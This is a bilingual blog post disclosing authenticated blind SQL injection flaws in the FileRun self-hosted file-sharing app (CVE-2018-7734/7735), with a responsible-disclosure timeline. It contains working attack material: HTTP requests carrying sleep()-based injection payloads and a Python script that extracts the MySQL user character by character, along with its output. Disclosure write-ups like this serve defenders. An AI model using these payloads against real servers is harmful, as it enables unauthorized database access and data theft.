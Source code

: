 ```yaml
---
layout: post
title: FileRun <= 2017.09.25 Blind SQLi
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - scanf</p>

## 0x00 Preface

&nbsp;&nbsp;&nbsp;在内部分享中需要用到私有的云盘服务,一番寻找之后发现FileRun是个不错的应用程序.FileRun允许我们自己搭建云存储，方便我们的照片，视频等文件更好的分享和存储.
&nbsp;&nbsp;&nbsp;Sometimes team private file sharing need use file sharing web application.I noticed FileRun is a great application,This application allows us to access our files anywhere through self-hosted secure cloud storage.

## 0x01 How To Find The Vulnerability

&nbsp;&nbsp;&nbsp;需要我们以`superuser`登录后台

These vulnerabilitys was found after the authentication. After we logged in as `superuser`.

### SQL1

控制面板——>Admin——>用户——>快速搜索,这样将会发送一个POST请求。

go to control panel——>Admin——>user——>search,will generate a POST request to the server.

{% highlight javascript %}
POST /?module=users&section=cpanel&page=list HTTP/1.1
Host: target.com
Content-Length: 20
Origin: http://target.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
Accept-Language: zh-CN,zh;q=0.9
Cookie: __cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf
Connection: close

limit=50&search=aaaa
{% endhighlight %}

我注意到search参数容易受到SQL注入的影响,通过传入aaaa' 服务器返回了一个500的响应状态:

I notice that the search parameter might be vulnerable to SQL Injection,I injected a single quote after the value (example:aaaa'),examined the server response error:

然后构造了基于sleep函数延时的payload:

Use MySQL's delay function sleep () to testing.

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c01504c70061.png">

{% highlight javascript %}
'xor(sleep(5))or'
{% endhighlight %}

结果如下

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c015098123ba.png">

然后使用Blind SQL注入技术来获取select user()数据验证脚本如下：

Here I create a simple script to extract current select user()query result using Boolean-based technique.

{% highlight python %}

#!/usr/bin/env python
# -*- coding:utf-8 -*-
#__author__ = 'scanf'
import httplib
import time

headers = {'Content-Type': 'application/x-www-form-urlencoded',
           'User-Agent': 'Googlebot/2.1 (+http://www.googlebot.com/bot.html)',
           'Cookie': '__cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf',
           #'Cookie' : 'input you cookie',
           }
payloads = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.*'
print '[%s] Start to retrive MySQL User:' % time.strftime('%H:%M:%S', time.localtime())
user = ''
for i in range(1, 15):
        for payload in payloads:
            s = "aaaa'xor(if(ascii(mid(user()from(%s)for(1)))=%s,1,0))or'" % (i, ord(payload))
            s = '''limit=50&search=''' + s
            #url = http://target.com/?module=users&section=cpanel&page=list
            conn = httplib.HTTPConnection('target.com', timeout=30)
            conn.request(method='POST', url='/?module=users&section=cpanel&page=list', body=s,headers=headers)
            start_time = time.time()
            html_doc = conn.getresponse().read()
            conn.close()
            print '.',
            if html_doc.find('uid') > 0:
                user += payload
                print '\n[in progress]', user,
                break
print '\n[Done] MySQL user is %s' % user

{% endhighlight %}

{% highlight javascript %}
[20:39:20] Start to retrive MySQL User:
. . . . . . 
[in progress] f . . . . . . . . . 
[in progress] fi . . . . . . . . . . . . 
[in progress] fil . . . . . 
[in progress] file . . . . . . . . . . . . . . . . . . 
[in progress] filer . . . . . . . . . . . . . . . . . . . . . 
[in progress] fileru . . . . . . . . . . . . . . 
[in progress] filerun . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@ . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@1 . . .
{% endhighlight %}

### SQL2

控制面板——>元数据——>快速搜索,输入字符串后将发起一个POST请求:

control panel——>Metadata——>search Same as SQL1,will generate a POST request to the server:

{% highlight javascript %}
POST /?module=metadata&section=cpanel&page=list_filetypes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 36
Cookie: __cfduid=df5ddd49a2303cb2e13b6aa8ece2af7b11513411363; FileRunSID=fa163cd088b68ae20c689826e3a70479; language=chinese
Connection: close

limit=50&search=aaa'xor(sleep(2))or'
{% endhighlight %}

然后超时后响应:

sleep() function is executed:

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c0150d5f182e.png">

## timeline

* 2017.12.18 发现漏洞并联系官方 Discover the vulnerability and contact the official
* 2017.12.22 等待官方处理 Waiting for official processing
* 2018.2.13 官方修复2.13并致谢并允许公开 Officially fixed 2.13 and thanks and open for publication
* 2018.3.6 请求cve漏洞编号 Request cve
* 2018.3.7 获得CVE-2018-7734 CVE-2018-7735

cve information：

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7734
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7735